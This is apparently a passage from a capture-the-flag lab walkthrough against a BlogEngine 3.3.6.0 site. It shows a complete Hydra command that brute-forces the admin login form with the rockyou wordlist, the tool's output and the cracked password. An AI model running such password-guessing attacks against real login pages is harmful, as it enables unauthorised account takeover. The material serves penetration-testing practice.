 ```shell

WebForm_InitCallback();//]]>
</script>
</form>

    <!--- BlogEngine 3.3.6.0 -->
</body>
</html>
```

We can see a login form and using Burpsuite to intercept the requests this makes a POST request of the login details when submitting.

Because of this we can use Hydra to brute force the login.

```shell
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.194.58 http-post-form "/Account/login.aspx:__VIEWSTATE=J7%2FrKT%2FRbzXElHvOFArr4HX0BUp05PUs%2Bjl4fN5QtFnsigr6tjwFZkWaUW9RaCNkl5wcaaA9I71WXBKsdywllsO45a8kdE%2BO2GeciLswYLZgMhEIYMOLKvVE1g9%2FuxmOjygsPrfW43YX1axgD3V%2FmbHd2lx7jcwje7Qgkp065G2LekTQ&__EVENTVALIDATION=nIJxL4rdGJE3KYMzFDmVH35CAPYLfmVh68KpFWCfpmOAp8i4dLgnYkYLVP3UEDV8IiIqX6kXoIwujnQvd7xTK1Tbiqg5RF0fYL3q6nazJk37P%2BrLs8lq043TvaeMwGi4uqTkx2onf8prQt9NNxgtS4oXE0haNUx6xQId8O8kqlZfYRAG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-10 18:33:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.194.58:80/Account/login.aspx:__VIEWSTATE=J7%2FrKT%2FRbzXElHvOFArr4HX0BUp05PUs%2Bjl4fN5QtFnsigr6tjwFZkWaUW9RaCNkl5wcaaA9I71WXBKsdywllsO45a8kdE%2BO2GeciLswYLZgMhEIYMOLKvVE1g9%2FuxmOjygsPrfW43YX1axgD3V%2FmbHd2lx7jcwje7Qgkp065G2LekTQ&__EVENTVALIDATION=nIJxL4rdGJE3KYMzFDmVH35CAPYLfmVh68KpFWCfpmOAp8i4dLgnYkYLVP3UEDV8IiIqX6kXoIwujnQvd7xTK1Tbiqg5RF0fYL3q6nazJk37P%2BrLs8lq043TvaeMwGi4uqTkx2onf8prQt9NNxgtS4oXE0haNUx6xQId8O8kqlZfYRAG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.194.58   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-10 18:33:50
```

```
login: admin   password: 1qaz2wsx
```

Once logged in we can view the main dashboard
